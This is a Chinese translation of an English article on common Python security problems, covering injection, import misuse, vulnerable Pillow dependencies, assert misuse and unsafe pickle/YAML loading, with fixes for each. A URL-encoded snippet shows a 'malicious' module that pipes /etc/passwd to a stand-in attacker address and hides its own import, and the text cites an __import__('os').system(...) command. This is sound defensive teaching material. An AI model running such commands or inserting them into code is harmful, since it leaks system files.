








# 常见的 Python 安全问题

> 原文：<https://itnext.io/common-python-security-problems-ffedbae7b11c?source=collection_archive---------1----------------------->

Python 正日益成为开发人员中最受欢迎的编程语言之一。相对较少的 [Python 安全问题](https://www.whitesourcesoftware.com/most-secure-programming-languages/)和它的用户友好性使它比其他语言更有优势。出于这个原因，它为一些最大的网站提供支持，包括 YouTube、Dropbox、Reddit、Quora、Spotify 和 Instagram。

根据 StackOverflow 的 [2019 年调查，41.7%的开发者将 Python 列为他们最喜欢的开发技术。该调查还强调了 Python 在开发者偏好方面的排名上升，超过了 C#、PHP，现在又超过了 Java。](https://insights.stackoverflow.com/survey/2019/?ref=hackernoon.com#most-popular-technologies)

然而，与任何其他技术一样，开发人员应该专注于提高应用程序的安全级别。这篇文章汇集了一些最常见的 Python 安全问题，并指导开发人员如何修复它们。

# 输入注入

注入攻击可以说是任何开发环境中最常见的漏洞。在 Python 中，这些攻击可以采取不同的形式，包括:

*   **模块注入** —当恶意的 Python 模块或包文件被导入到目录中时，就会发生这种情况。
*   **SQL 注入** —它涉及引入在 SQL 语句上下文中执行的恶意输入。
*   **命令注入** —在调用进程、子进程或 os.system 时发生。特制变量可能包含恶意值，在本地命令中调用时会引入漏洞。

下面是一个示例代码片段，其中导入了一个简单的恶意模块，在执行时可能会导致不良后果。

[Raw](https://carbon.now.sh/embed?bg=rgba(0%2C0%2C0%2C1)&t=blackboard&wt=none&l=python&ds=true&dsyoff=20px&dsblur=68px&wc=true&wa=true&pv=56px&ph=56px&ln=false&fl=1&fm=Hack&fs=14px&lh=133%25&si=false&es=1x&wm=false&code=%2524%2520cat%2520malicious.py%250A%2520%2520%2520import%2520os%250A%2520%2520%2520import%2520sys%250A%2520%2520%2520os.system(%27cat%2520%252Fetc%252Fpasswd%2520%257C%2520attackers-email%2540example.com%27)%250A%2520%2520%2520del%2520sys.modules%255B%27malicious%27%255D%2520%2520%2523%2520pretend%2520it%27s%2520not%2520imported%250A%2520%2520%2520%2524%2520python%250A%2520%2520%2520%253E%253E%253E%2520import%2520malicious%250A%2520%2520%2520%253E%253E%253E%2520dir(malicious)%250A%2520%2520%2520Traceback%2520(most%2520recent%2520call%2520last)%253A%250A%2520%2520%2520NameError%253A%2520name%2520%27malicious%27%2520is%2520not%2520defined%250A)

有几种方法可以减轻注入攻击。其中包括:

*   消毒所有输入
*   修正外壳中 *shlex* 模块的输入转义
*   维护对搜索路径中的包文件和目录的安全访问权限。这确保了非特权用户对文件没有写访问权。

# 误用导入功能

Python 在导入方面非常灵活。然而，这种灵活性是以安全性为代价的。

当在 Python 中使用[相对导入时，在系统路径中发现的恶意模块可能会被偷偷带入您的代码库。这很危险，因为导入语句可以在恶意模块中执行代码，从而造成安全漏洞。](https://realpython.com/absolute-vs-relative-python-imports/)

如果像*_ _ import _ _(“OS”)这样简单的语句。system("uname -a")* 包含此类恶意值，则提供的命令可用于危害应用程序中的数据或进程。

为了避免滥用导入功能，只有当传递给脚本的 stdin 的数据可信时，才应该使用 input 函数。否则，将所有数据视为原始的、不可信的输入。

好在 Python 3 不支持隐式相对导入。相反，它将导入函数视为原始输入，从而完全修复了该漏洞。因此，Python 2 用户应该考虑升级到 Python 3。然而，这并不意味着 Python 3 用户应该对他们的导入语句漠不关心。

# 使用过时的依赖关系

很大一部分开发人员通过使用未打补丁的依赖关系将漏洞引入到他们的 Python 应用程序中。过时的 Python 依赖通常会打开漏洞，其中大部分会在后续版本中修复。因此，保持依赖关系的更新是至关重要的。否则，您的代码将仍然不安全。

例如，在这个用于解释性数学视频的[基于 Python 的动画引擎](https://github.com/Dickson-Mwendia/Animation-engine-for-explanatory-math-videos-in-Python)中，未打补丁的 Pillow 依赖项中存在大量安全漏洞，如下所示:

依赖性中发现的三个 Python 漏洞是:

*   [CVE-2019–19911](https://github.com/advisories/GHSA-5gm3-px64-rw72)—与不受控制的资源消耗相关的 DoS 漏洞。它影响 6.2.2 以下的所有枕头版本。
*   [CVE-2020–5313](https://github.com/advisories/GHSA-hj69-c76v-86wr)—枕形缓冲区溢出，导致越界读取。此漏洞也会影响 6.2.2 以下的所有版本。
*   [CVE-2019–16865](https://github.com/advisories/GHSA-j7mj-748x-7p78)—在处理特制图像文件时，枕头中的拒绝服务攻击。它影响 6.2.0 以下的所有版本。

这三个漏洞可以通过将 pillow 依赖项更新为修补版本来修复。在这种情况下，6.2.2 以上的任何版本都会修复这三个缺陷。

保持你的依赖关系最新的最好方法是使用[white source renew](https://renovate.whitesourcesoftware.com/)，这是一个免费的依赖关系更新工具，可以在 [GitHub 市场](https://github.com/marketplace/renovate)上找到。当您将 renewal 集成到一个项目或工作流中时，它会扫描所有的存储库。

这里有一个快照显示了这个 GitHub [Python 项目](https://github.com/Dickson-Mwendia/Animation-engine-for-explanatory-math-videos-in-Python)的调试级别日志。

扫描完代码库后，Renovate 为每个过时的依赖项发起一个 pull 请求，如下所示:

一旦合并了 renew 调用的 pull 请求，易受攻击的 Pillow 依赖项就会更新到版本 7，从而使应用程序或存储库变得安全。

请注意依赖关系警报部分的绿色标记；枕头依赖中的哪些安全问题现已修复。

# 断言语句

使用 *assert 语句*来控制你的应用逻辑或者程序执行是错误的。它可能导致检索错误的结果，引入安全风险，甚至更糟，程序失败。

考虑下面的 Python 代码片段。

[Raw](https://carbon.now.sh/embed?bg=rgba(0%2C0%2C0%2C1)&t=blackboard&wt=none&l=python&ds=true&dsyoff=20px&dsblur=68px&wc=true&wa=true&pv=56px&ph=56px&ln=false&fl=1&fm=Hack&fs=14px&lh=133%25&si=false&es=1x&wm=false&code=def%2520get_clients(user)%253A%250A%2520%2520%2520%2520%2522%2522%2522Get%2520list%2520of%2520clients.%2522%2522%2522%250A%2520%2520%2520%2520assert%2520is_superuser(user)%252C%2520%2522User%2520is%2520not%2520a%2520member%2520of%2520superuser%2520group%2522%250A%2520%2520%2520%2520return%2520db.lookup(%27clients%27)%250A)

当您在[优化模式](https://docs.python.org/3/using/cmdline.html#envvar-PYTHONOPTIMIZE)下运行这个 Python 程序时， *assertstatement* 被忽略。因此，任何用户，包括那些不是超级用户组成员的用户，都可以成功地获得客户端列表。

这意味着代码中的任何保护都被删除了，使得应用程序容易受到攻击。

我们可以重写一个更安全的程序，如下所示，而不是依赖 assert 语句来防止代码被非法访问:

[Raw](https://carbon.now.sh/embed?bg=rgba(0%2C0%2C0%2C1)&t=blackboard&wt=none&l=python&ds=true&dsyoff=20px&dsblur=68px&wc=true&wa=true&pv=56px&ph=56px&ln=false&fl=1&fm=Hack&fs=14px&lh=133%25&si=false&es=1x&wm=false&code=def%2520get_clients(user)%253A%250A%2520%2520%2520%2520%2522%2522%2522Get%2520list%2520of%2520clients.%2522%2522%2522%250A%2520%2520%2520%2520if%2520not%2520is_superuser(user)%253A%250A%2520%2520%2520%2520%2520%2520%2520%2520raise%2520PermissionError(%2522User%2520is%2520not%2520a%2520member%2520of%2520superuser%2520group%2522)%250A%2520%2520%2520%2520return%2520db.lookup(%27clients)

[断言机制](https://docs.python.org/3/reference/simple_stmts.html#the-assert-statement)应该只用于与其他开发者的通信。例如，当执行单元或集成测试时。

# 不安全的反序列化

有许多技术可以读取外部文件并将其内容加载到(反序列化)Python 对象中。 [Pickle](https://docs.python.org/3/library/pickle.html) 就是这样一种强大的序列化技术，它本身就有风险，尤其是当攻击者篡改序列化数据时。

来自外部来源的数据从来都不安全。根据经验，永远不要将来自不可信来源的数据分解或解析到 Python 对象中。这是因为攻击者可以在 pickling 期间使用子进程模块执行任意命令。

此外，来自用户输入的 YAML 文件会使您的应用程序容易受到攻击。为了避免这种情况，使用[py YAML](http://pyyaml.org/wiki/PyYAMLDocumentation)safe _ load function(YAML . safe _ load)来处理 YAML 序列化。

下面是一个简单的定制代码，可以用来查找代码库中所有不安全的 yaml.load 函数。

[生](https://carbon.now.sh/embed?bg=rgba(0%2C0%2C0%2C1)&t=blackboard&wt=none&l=python&ds=true&dsyoff=20px&dsblur=68px&wc=true&wa=true&pv=56px&ph=56px&ln=false&fl=1&fm=Hack&fs=14px&lh=133%25&si=false&es=1x&wm=false&code=import%2520python%250Afrom%2520CallNode%2520call%250Awhere%2520call%2520%253D%2520Value%253A%253Anamed(%2522yaml.load%2522).getACall()%250Aselect%2520call.getNode()%252C%2520%2522yaml.load%2520function%2520is%2520unsafe%2520when%2520loading%2520data%2520from%2520untrusted%2520sources.%2520Use%2520yaml.safe_load%2520instead.%2522)

**总结**

软件安全性应该始终处于每个 Python 开发项目的最前沿。虽然这篇文章旨在提高人们对安全漏洞的认识，但它并没有涵盖 Python 生态系统中的所有安全漏洞。

然而，它涵盖了在 Python 应用程序中引入安全漏洞的最普遍的问题。因此，遵循上面的实践，为构建安全的 Python 应用程序打下坚实的基础。